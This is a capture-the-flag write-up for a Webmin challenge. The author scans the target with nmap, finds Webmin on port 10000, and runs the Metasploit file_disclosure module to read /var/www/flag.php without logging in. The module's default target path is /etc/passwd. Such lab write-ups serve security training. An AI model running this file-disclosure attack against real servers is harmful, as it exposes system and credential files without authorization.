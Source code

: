 Webmin - Exploit 2
========================
## Challenge:

> **Description:** This challenge had us connecting to a server where the following information was shown. A flag.php file and a webmin folder containing a config file.

> **Goal:** Find the flag for 2000 Points.


## Solution:

Solving this problem was pretty fun. Though the taunt of having flag.php right in front of me was painful. First off I began by looking through the provided files. It was no surprise that flag.php wasn't going to contain the viewable flag. So, onto the next file, webmin. This folder contained a basic webmin config file that provided no real useful information either. So what do. I know that there is a flag.php file somewhere on the server that most likely contains the flag, and that the server is running webmin.

Armed only with that information I figured something else had to be on the server. Bring in good old nmap.
```
nmap -Pn 54.221.X.X

Port      State Service
22/tcp    open  ssh
443/tcp   open  https
10000/tcp open  snet-sensor-mgmt
```

Wooh! Whats that!? snet-sensor-mgmt running on port 10000? Interesting. After giving that a go I found myself at a webmin login page. I started browsing the googles for any default accounts or passwords but I soon found there were none. Better yet the server implemented a timeout mechanism to stop brute forcing. Huh, what now?

Well. There _has_ to be another way. Are there any exploits for webmin?? Ah lookie [here](http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure), this looks interesting. Now given our knowledge of flag.php, our best bet is that it resides in /var/www/. So lets fire it up.
```
msf auxiliary(file_disclosure) > use auxiliary/admin/webmin/file_disclosure
msf auxiliary(file_disclosure) > show options

Module options (auxiliary/admin/webmin/file_disclosure):

  Name     Current Setting    Required  Description
  ----     ---------------    --------  -----------
  DIR      /unauthenticated   yes       Webmin directory path
  Proxies                     no        Use a proxy chain
  RHOST    54.221.X.X         yes       The target address
  RPATH    /etc/passwd        yes       The file to download
  RPORT    10000              yes       The target port
  VHOST                       no        HTTP server virtual host

msf auxiliary(file_disclosure) > set RPATH /var/www/flag.php
msf auxiliary(file_disclosure) > exploit
```

Boom! We have a flag!

**NCL-OSSL-1337**
